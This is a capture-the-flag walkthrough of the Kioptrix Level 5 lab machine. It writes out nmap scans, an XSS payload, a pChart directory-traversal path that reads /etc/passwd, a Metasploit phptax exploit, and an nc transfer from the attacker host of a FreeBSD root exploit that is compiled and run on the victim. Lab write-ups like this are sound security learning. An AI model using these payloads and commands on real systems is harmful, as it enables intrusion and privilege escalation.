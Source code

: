 ```yaml
---
layout: post
title: Kioptrix Level 5 (2014)
---
```

[Kioptrix Level 5 (2014)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.16

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.16`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL5/NMap1.JPG)
 
 There are 3 ports open: 22 (ssh), 80 (http), 8080 (http)
 
 However, the ssh port is closed so we cannot connect
  
## HTTP
 
 If we check the source code of port 80, the meta tag has been left in and gives us a url path: `pChart2.1.3/index.php`
 
### Searchsploit
 
 `searchsploit pchart 2.1.3` and we get a txt file containing explanations of multiple explanations such as directory traversal and XSS
 ### XSS

`/pChart2.1.3/examples/sandbox/script/session.php?id=<script>alert(document.cookie)</script>`
 
### Directory Traversal
 
Append `?Action=View&Script=/../../etc/passwd` to the url (after index.php) to view etc/passwd but no hashes to be cracked

We can use to view apache config files located in `/usr/local/etc/apache22/httpd.conf`

Looking through this, we can see that the web server on port 8080 must use the Mozilla/4.0 user agent

`SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser`
`<VirtualHost *:8080>`

We can do this by capturing the request in Burp Suite and changing the 5.0 to 4.0 in the user agent 

If we follow the phptax link, we find some tax forms containing sensitive information.

It seems there'll be a lot of clicking and to continuously keep changing the user agent in burp suite is tedious. I'm going to change it in firefox.

go to `about:config`, right click and select new > string. Call it `general.useragent.override` and enter in the value `Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0`

Now we can navigate normally.

## MSFConsole

If we search on msfconsole for 'phptax', there's an exploit we can use

`set rhost x.x.x.16`
`set rport 8080`
`run`

To upgrade our shell, we can run `/bin/sh -i`

To get system info, we can type `uname -a` and we know our OS is FreeBSD 9.0

`searchsploit freebsd 9.0` on our local machine and we get a couple of local exploits, however, this means we must transfer the exploit onto the victim machine.

The system doesn't have `wget`, my usual method of transfer but we are able to run `nc`

Our machine: `nc -lvnp 4444 < 26368.c`

Victim machine: `nc x.x.x.49 4444 > exploit.c`

When it connects, end the connection on our end and run `gcc -o exploit exploit.c` on the victim

`chmod 777 exploit`

`./exploit` We become root and we can read the congrats.txt in /root
